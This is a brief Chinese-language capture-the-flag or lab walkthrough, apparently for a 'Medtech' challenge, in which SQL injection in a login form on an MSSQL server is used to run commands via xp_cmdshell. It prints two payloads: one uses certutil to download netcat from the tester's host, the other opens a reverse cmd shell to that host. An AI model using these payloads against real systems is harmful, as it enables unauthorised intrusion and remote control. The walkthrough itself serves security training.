 # 121主机-web服务

这里的登录服务会报错，存在sql注入

![image-20250912203406451](./Challenge%201%20-%20Medtech/image-20250912203406451.png)

用`sqlmap`注了一下是`mssql`,测试了一下xp_cmdshell可以进行命令执行，因为没有回显，可以先用ping测试一下这个函数是否能用，本地启动tcpdump监听就可以了

```
admin' ;exec xp_cmdshell 'certutil -urlcache -f http://192.168.45.222:8000/nc64.exe C:\temp\nc.exe'--%20

admin' ;exec xp_cmdshell 'C:\temp\nc.exe -e cmd 192.168.45.222 80'--%20
```

![image-20250912203914842](./Challenge%201%20-%20Medtech/image-20250912203914842.png)
